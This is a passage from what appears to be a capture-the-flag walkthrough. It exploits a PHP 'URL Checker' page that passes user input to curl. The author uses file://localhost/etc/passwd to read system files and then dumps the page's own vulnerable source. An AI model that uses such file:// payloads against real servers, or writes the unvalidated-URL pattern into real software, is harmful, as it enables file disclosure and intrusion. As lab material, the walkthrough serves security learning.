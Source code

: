 Hmmm... It includes the webpage, we might think there is a file inclusion somewhere!

### LFI, RCE or SSRF?

Indeed, we can think of a Local File Inclusion, a Remote Command Execution or Server Side Request Forgery... But thanks to the output verbosity, we assume this script is using `curl`:


![](/lib/images/articles/realgsmoveinsilencelikelasagna/red_8.png)


Let's try to change the protocol used, something like `file://` instead of `http://`. If we don't miss the localhost condition, it should work:

> file://localhost/etc/passwd


![](/lib/images/articles/realgsmoveinsilencelikelasagna/red_9.png)


This application allows us to include arbitrary file, great. By the way, there is a user called __odie__ on the system. I will display the content of `test.php`, just to be clear about the vulnerability:

> file://localhost/var/www/html/test.php

```php
<?php 
include_once "config_test.php";
?>

<html>
<head>
	<title>Super curling</title>
</head>
<body>
	<form action="test.php" method="post">
		URL Checker - Beta: 
		<input type="text" name='url' />		
	</form>
<?php
if (isset($_POST['url'])&&!empty($_POST['url']))
{
		$url = $_POST['url'];
			$content_url = getUrlContent($url);
}
else
{
		$content_url = "";
}

if(isset($_GET['debug']))
{
		show_source(__FILE__);
}
?> 
</body>
</html>
```
